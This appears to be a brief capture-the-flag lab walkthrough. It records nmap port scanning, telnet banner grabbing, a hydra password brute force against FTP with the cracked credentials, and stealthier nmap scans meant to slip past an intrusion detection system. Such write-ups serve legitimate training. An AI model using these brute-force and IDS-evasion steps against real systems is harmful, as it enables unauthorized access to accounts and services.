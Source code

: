 There is a hidden flag on the SSH server header > ` telnet HOST 22`
And one in the HTTP server header > `telnet HOST 80` > `GET / HTTP/1.1` > `host: telnet`

Full port scan using nmap > `nmap -p- -T5 -sS -n HOST`  shows a hidden service on 10021 and 28182 
Interrogate ports to find the open FTP service > `nmap -A -p 10021 HOST` version is vsftpd 3.0.3
Attempt accessing FTP > `ftp HOST 10021` we need a login
Provided 2 usernames, use hydra to credential stuff passwords > `hydra -l eddie -P /usr/share/wordlists/rockyou.txt -s 10021 HOST ftp'`
Hydra returns: `login: eddie  password: jordan` and for "quinn" returns `login: quinn  password: andrea`
Login to FTP > `ftp HOST 10021` > username and pass entry and > `ls` to find files
eddie's FTP is empty, but quinn's has 1 file
Use `get ftp_flag.txt` to copy the file back to the home directory

A webpage is hosted that reports on IDS' ability to detect a scan, attempted a "covert" scan with `nmap -sS -f -F 10.10.125.36'` which was too loud, so changed to an`-sN` scan which was quieter and provided a flag
